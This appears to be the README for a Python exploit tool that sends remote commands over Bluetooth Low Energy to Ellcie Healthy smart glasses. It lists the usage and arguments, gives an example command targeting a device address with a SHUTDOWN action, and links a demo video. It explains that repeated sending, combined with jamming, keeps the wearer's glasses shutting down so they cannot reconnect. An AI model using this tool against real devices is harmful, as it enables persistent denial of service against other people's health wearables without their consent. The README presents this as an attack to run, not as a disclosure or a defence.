 # Ellcie Healthy glasses : Remote Command Execution


>    usage: ellcieExploiter.py [-h] --address ADDRESS --action {BEEP,SHUTDOWN}   [--init {1,0}] [--keepsending {1,0}] 


Arguments:

	 -h, --help            show this help message and exit
	 --address ADDRESS     Glasses BLE addresses
	 --action {BEEP,SHUTDOWN} Action to be executed 
	 --init {1,0}          Should the script activate bluetooth
	 --keepsending {1,0}   Should we keep sending the request ? Doing so will
	                       constantly send the action. That means for example if
	                       you jam the device and send the shutdown request, the
	                       user won't be able to reconnect again, as the device
	                       with again and again shutdown.


### Example 

    python3 ellcieExploiter.py  --address=E7:60:74:B4:98:3E --init=0 --keepsending=1 --action=SHUTDOWN


### Video 

https://www.youtube.com/watch?v=fmF9yqJvT5s
